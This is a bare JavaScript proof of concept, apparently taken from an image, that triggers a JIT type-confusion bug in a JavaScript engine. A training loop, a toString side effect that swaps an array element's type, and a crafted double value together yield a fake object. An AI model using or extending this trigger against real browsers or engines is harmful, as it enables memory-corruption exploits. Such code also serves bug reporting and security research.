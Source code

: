 
function opt(arr, index) {
    arr[0] = 1.1;
    typeof(arr[index]);
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3];
    for (let i = 0; i < 0x10000; i++) {
        opt(arr, {});
    }

    opt(arr, {toString: () => {
        arr[0] = {};

        throw 1;
    }});

    print(arr[0]);
}

main();
